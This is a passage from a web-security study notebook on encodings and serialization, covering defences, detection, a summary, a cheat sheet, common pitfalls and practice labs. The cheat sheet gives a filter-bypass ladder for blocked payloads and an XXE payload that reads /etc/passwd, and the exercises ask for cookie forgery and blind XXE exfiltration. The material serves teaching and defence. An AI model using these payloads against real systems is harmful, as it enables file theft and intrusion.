- **Canonicalize before validating.** URL-decode, Unicode-normalize (choose NFC and be
  consistent), and reject invalid/overlong UTF-8 *before* running allow/deny checks. Never validate,
  then decode.
- **Reject, don't sanitize, ambiguous input** where possible: reject overlong encodings, mixed
  encodings, and unexpected charsets rather than trying to clean them.
- **Parser hardening:** XML → DTDs/external entities OFF (kills XXE + billion-laughs). JSON → strict
  parser, reject duplicate keys where the library allows, validate types explicitly. Never
  deserialize untrusted data with native/unsafe deserializers (pickle/Java/PHP); use JSON + schema.
- **Set and honor charset** explicitly (`Content-Type: ...; charset=utf-8`) so the client can't
  choose an XSS-friendly one.

**Output side:**

- **Context-aware output encoding** is the XSS defense: HTML-entity-encode for HTML, JS-encode for
  script, URL-encode for URLs, attribute-encode for attributes. The *right* encoding depends on
  where the data lands.
- **Never rely on encoding as confidentiality.** Base64/hex/URL-encoding hide nothing. Secrets need
  the Cryptography notebook, and integrity needs a signature (Chapter 3).

**Detection (blue team):**



- Alert on **multiply-encoded** sequences (`%25%32%66`, `%252e`), `<!DOCTYPE`/`SYSTEM`/`ENTITY` in
  request bodies (XXE probing), known **serialized-object prefixes** (`rO0`, `gASV`, `O:`,
  `AAEAAAD`), and unexpected **non-ASCII/mixed-script** characters in identity fields.
- **Canonicalize in the WAF the same way the app does** — a WAF that inspects raw bytes while the
  app decodes twice is the double-encoding bypass. Decode fully before matching.
- In DFIR, CyberChef's Magic/Entropy/Detect-File-Type triages unknown blobs from logs and memory.

---

## Part 12: Final Revision / Summary

- **Everything is bytes; a charset gives them meaning.** ASCII (7-bit) → Unicode (code points) →
  UTF-8 (variable-length bytes). The same character can have multiple byte forms — the seed of
  normalization attacks.
- **Hex** maps two digits per byte; it's the substrate under percent-encoding and a common
  filter-bypass representation.
- **URL/percent encoding** (`%XX`) is the most bug-dense scheme: **double/multi-encoding** bypasses
  layered WAFs, and encoding special chars evades filters. Rule: canonicalize once, then validate.
- **Base64** turns bytes into safe text (3 bytes → 4 chars, `=` padding); **Base64URL** (`-`/`_`,
  no padding) wraps JWTs. It is **encoding, not encryption** — it hides nothing. **HTML entities**
  encode for the HTML context (XSS output-defense *and* browser-decoded bypass vector).
- **JSON** is the API lingua franca; its sharp edges are duplicate keys (parser-confusion authz
  bypass), type juggling, number precision, Unicode escapes, and content-type confusion.
- **XML** brings **XXE**: external entities read local files, pivot to SSRF (cloud metadata), enable
  blind OOB exfiltration, and the billion-laughs DoS. Fix: disable DTDs/external entities.
- **Insecure deserialization** turns attacker data into code (pickle/Java/PHP/.NET) → RCE.
  Recognize encoded prefixes (`rO0`, `gASV`, `O:`); never deserialize untrusted data unsafely.
- **Unicode**: NFKC normalization folds look-alikes into dangerous chars (filter bypass), overlong
  UTF-8 sneaks `/` past byte filters, IDN homographs enable phishing. Canonicalize + normalize
  before validating.
- **CyberChef** chains all of this into visual recipes (encode, decode, "Magic" auto-detect) — learn
  it; the `curl`/`python`/`xxd` one-liners are its scriptable twins.

The meta-lesson: **attackers live between the encoder and the decoder.** Master the schemes, know
every decode step between your filter and the final sink, canonicalize once, and encode for the
right context.

---

## Part 13: Cheat Sheet / Quick Reference

**Recognize encodings by eye**

| Looks like | Probably |
|---|---|
| `%XX` sequences | URL/percent encoding |
| `%25XX` | double URL encoding |
| mixed case + digits, `=`/`==` end | Base64 |
| starts `eyJ` | JWT (Base64URL JSON) |
| `-`/`_`, no `=` | Base64URL |
| `&lt; &#60; &#x3c;` | HTML entities |
| `rO0` / `gASV` / `O:` / `AAEAAAD` | Java / pickle / PHP / .NET serialized object |
| `xn--...` | Punycode (IDN) |

**Encode/decode one-liners**

```bash
echo -n txt | base64 ; echo b64 | base64 -d          # Base64
echo -n txt | xxd -p ; echo hex | xxd -r -p          # Hex
python3 -c "import urllib.parse as u;print(u.quote('a b'))"      # URL encode
python3 -c "import urllib.parse as u;print(u.unquote('%3C'))"    # URL decode
echo 'eyJ...' | tr '_-' '/+' | base64 -d              # Base64URL (JWT segment)
```

**Bypass ladder (when a payload is blocked)**

```
1) URL-encode the trigger char        '  -> %27
2) Double-URL-encode                   %27 -> %2527
3) Mixed case / alt repr              %2F / %2f / %2e
4) Base64 (if app decodes)            <script> -> PHNjcmlwdD4=
5) HTML entity (browser decodes)      j -> &#x6a;  / &#106;
6) Unicode/fullwidth (if NFKC)        <  -> ＜ (U+FF1C)
7) Overlong UTF-8 (lax decoder)       /  -> %c0%af
```

**XXE core**

```xml
<!DOCTYPE x [<!ENTITY e SYSTEM "file:///etc/passwd">]> ... &e;
```
Fix: disable DTD/external entities. **Deser fix:** don't deserialize untrusted data.

**Golden rule:** *canonicalize (decode+normalize) ONCE, then validate; encode for the final
context.* Encoding ≠ encryption.

---

## Part 14: Common Pitfalls

- **Treating Base64/hex/URL-encoding as security.** They hide nothing; anyone decodes them. Use
  crypto for confidentiality, signatures for integrity.
- **Validating before decoding.** The universal encoding bug — a filter checks raw bytes, a later
  layer decodes into the dangerous form. Canonicalize first.
- **WAF and app decode different numbers of times.** Double-encoding sails past. Decode fully in the
  WAF, matching the app.
- **Leaving XML external entities enabled.** XXE → file read, SSRF, OOB exfil, DoS. Disable DTDs.
- **Deserializing untrusted data (pickle/Java/PHP/.NET).** RCE. Prefer JSON + schema validation.
- **Ignoring JSON duplicate keys / type juggling.** Parser disagreement = auth bypass; loose typing
  = check bypass.
- **Skipping Unicode normalization (or normalizing *after* validating).** NFKC folds look-alikes
  into `<`, `/`, etc. Normalize before validating.
- **Wrong space encoding.** `%20` in path/query vs `+` in form bodies; mixing corrupts payloads.
- **Output-encoding for the wrong context.** HTML-encoding a value that lands in a JS string doesn't
  stop XSS. Encode for the *final* sink.
- **Trusting a declared charset you didn't set.** Charset mismatch is an XSS vector; set
  `charset=utf-8` explicitly.

---

## Part 15: Practice Labs & Resources

- **CyberChef** (gchq.github.io/CyberChef) — the tool itself is the lab. Reproduce every recipe in
  Part 9, then throw random CTF blobs at the **Magic** operation until decoding is second nature.
- **PortSwigger Web Security Academy** — *XXE injection* labs (file retrieval, SSRF via XXE, blind
  OOB, via file upload/SVG), *Information disclosure* and *WAF/obfuscation* material, and the
  encoding-heavy portions of the SQLi/XSS labs where double-encoding and HTML-entity bypasses are
  required.
- **OverTheWire / picoCTF / CryptoHack** — the **General Skills / Forensics** categories are full of
  multi-layer encoding puzzles (Base64→hex→XOR chains); CryptoHack's "Encoding" section drills
  exactly this.
- **OWASP Juice Shop** — has encoding-based challenges and an XXE-flavored one.
- **VulnHub / HackTheBox** — boxes whose foothold is XXE or insecure deserialization (search those
  tags) to practice recognizing encoded serialized blobs.
- **Tooling to master:** CyberChef, Burp **Decoder** + Intruder payload processors (URL/double
  encode), `xxd`/`base64`/`python3 -c`, `defusedxml`/`ysoserial` (understand deser), and
  `interactsh`/Burp Collaborator for blind XXE OOB confirmation.

**Practice questions / mini-labs to self-test:**

1. You capture `%2531%2532%2533`. Decode it fully by hand and state how many decode passes it took
   and why a single-decoding WAF would miss the intent.
2. A cookie is `eyJhZG1pbiI6ZmFsc2V9`. Decode it, forge an admin version, and explain the one design
   change that would make your forgery fail.
3. Write the minimal XXE payload to read `/etc/passwd`, then modify it to exfiltrate the file
   out-of-band when the response body shows nothing (blind XXE).
4. A filter blocks the literal `<` for XSS. Give three distinct encodings that could reach a `<` at
   the sink and name the decoding step each relies on.
5. Explain why `pickle.loads()` on user input is RCE while `json.loads()` on the same input is not,
   and what encoded prefix would tip you off that a blob is a Python pickle.

This chapter gave you byte-level literacy — the ability to read, craft, and layer the encodings
every payload rides on. It also closes **Notebook 6: Web Fundamentals**. The next notebook,
**Cryptography**, begins exactly where this chapter's recurring warning points: the boundary
between *encoding* (reversible, keyless, no secrecy) and *encryption* (keyed, confidential) — and
builds real confidentiality, integrity, and authenticity from first principles.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/web-fundamentals/06-encoding-and-serialization-url-base64-json-xml-hex), with comments and the latest edits.*
